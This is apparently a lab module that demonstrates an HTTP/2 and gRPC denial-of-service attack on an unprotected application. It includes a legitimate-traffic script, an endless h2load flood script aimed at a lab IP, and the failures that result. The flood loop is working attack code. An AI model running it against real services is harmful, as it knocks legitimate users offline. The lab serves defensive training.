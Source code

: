 Module 1 - HTTP/2 and GRPC DoS Attack on Unprotected Application
################################################################

| In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We
| will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of an HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

Generate legitimate traffic 
   1. In UDF, Click on Access for the **legitimate traffic** VM and select WebShell (or ssh into the box if you set that up)
   2. We will utilize the good.sh bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. code-block:: bash 
   :caption: /good.sh

   #!/bin/bash
   cd /grpc/examples/python/route_guide/

   IP=10.1.1.4
   PORT=600
   URI='good_path.html'

   declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")

   while true; do
   echo
   python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
   h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.4:443/testing/ &> /dev/null

   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
   echo
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &


3. Run the good traffic shell script and keep it running:

``./good.sh``
    
Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points 


Start HTTP/2 Flood attack
   1. Back in the UDF, click 'Access' on the **Attacker** VM and select WebShell

.. code-block:: bash
   :caption: http2flood.sh
   
   #!/bin/sh
   while true; do
      h2load -n 10000 -c 1000 http://10.1.1.4:500/routeguide.RouteGuide/GetFeature
   done


2. Run the http2 flood script for 15 seconds and keep it running:

``./scripts/http2flood.sh``

Attack script Output

.. code:: shell 

   finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

3. Click back on to the WebShell on the legitimate VM. Did the output from the script change? Output now shows the HTTP/2 service is experiencing an outage.

.. code:: shell

  JUICESHOP HTTP Code:200
        details = "Received http2 header with status: 502"
        debug_error_string = "{"created":"@1650395963.222837020","description":"Received http2 :status header with non-200 OK status","file":"src/core/ext/filters/http/client/http_client_filter.cc","file_line":134,"grpc_message":"Received http2 header with status: 502","grpc_status":14,"value":"502"}"

4. Stop the HTTP2Flood attack running on the Attacker host by pressing CTRL+C
5. On the legitimate traffic WebShell, press CTRL+C to exit the script
